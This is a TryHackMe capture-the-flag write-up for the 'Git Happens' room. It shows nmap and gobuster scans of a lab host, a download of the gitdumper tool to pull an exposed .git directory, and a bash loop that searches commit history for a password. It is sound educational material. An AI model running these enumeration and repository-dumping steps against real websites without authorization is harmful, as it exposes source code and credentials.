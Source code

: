 ```yaml
---
title: TryHackMe - Git Happens
description: My writeup on Git Happens box.
categories:
 - tryhackme
tags: tryhackme git gitdumper bash
---
```


![](https://i.imgur.com/ec64b32.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **Git Happens**  |
| Difficulty :  | **Easy/Medium**             |   
| Play :    | [Git Happens](https://tryhackme.com/room/githappens){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

Hello all, i got bored of vulnhub and i'll focus on tryhackme only. Let's start with this awesome challenge! It's all about git enumeration to find a password, let's start!

## Enumeration/Reconnaissance

Now as always let’s start with a nmap scan.

```
$ ip=10.10.18.139
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-26 15:51 EET
Warning: 10.10.18.139 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.18.139 (10.10.18.139)
Host is up (0.53s latency).
Not shown: 38165 filtered ports, 27369 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 62.20 seconds

$ nmap -p 80 -sC -sV -oN nmap/githappens.thm $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-26 15:53 EET
Nmap scan report for 10.10.18.139 (10.10.18.139)
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git:
|   10.10.18.139:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
```

Only 1 service that's good, once we visit it we can see a login page:

![](https://i.imgur.com/PHXrxxW.png)

Tried some basic stuff like `admin:admin` etc but nothing seems to work, seems like a static page. Let's run a `gobuster` scan.

```
$ gobuster dir -q -u http://$ip/ -w $common -x php,txt,html -o scans/gobuster.txt
/.git/HEAD (Status: 200)
```

We have a `/.git` directory! That's great, i found an awesome [gitdumper tool](https://github.com/internetwache/GitTools/blob/master/Dumper/gitdumper.sh){:target="_blank"} to download .git repository from the webserver.

```
$ wget -q https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh
$ bash gitdumper.sh http://$ip/.git/ scans/results
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating scans/results/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
...data...
```

## Getting The Flag

Perfect, now this reminds me of the DevOops box from hackthebox. We will use 2 commands:

```
git log = history of everything that happen to a repository.
git show = view details of the commit.
```

Running `git log` we can see lot of commits.

![](https://i.imgur.com/LI94paJ.png)

We will check every commit with the `git show` like this:

`$ git show 77aab78e2624ec9400f9ed3f43a6f0c942eeb82d`

![](https://i.imgur.com/aAPkwpa.png)

This will take lot of time, so i coded a bash script to do this job! :D

```bash
for commits in $(git log | grep commit | cut -d ' ' -f2 | head -9)
do
	git show $commits | grep password
done
```

We have the flag (Note: i'll hide the flag because i want to submit the writeup to tryhackme platform):

```
$ bash flag.sh
...data...
+          password === "TRY_TO_GET_IT_ALONE"
```

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"}

Until next time keep pwning hard! :fire:
